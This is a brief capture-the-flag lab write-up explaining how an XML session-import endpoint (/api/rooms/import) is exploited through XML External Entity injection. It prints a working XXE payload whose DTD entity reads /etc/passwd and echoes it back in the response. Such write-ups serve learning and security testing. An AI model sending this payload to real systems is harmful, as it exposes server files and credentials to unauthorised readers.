

Daily challenge.
Hint: *Import your previous sessions.*

In the lab, there is a functionality that allow users to import and restore sessions. This functionality allows to upload files in `xml`.
The webapp is vulnerable to *XML External Entity (XXE)* that allows attacker to inject malicious external entity reference into an XML payload via *Document Type Definition (DTD)*.
After sending a `POST` request to `/api/rooms/import` with payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE session [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<session>
  <name>test123</name>
  <rolls>
    <roll>
      <player>&xxe;</player>
      <notation>2d4 + 2d6 + 5d10</notation>
      <total>10032</total>
    </roll>
  </rolls>
</session>
```
The response contains the flag.


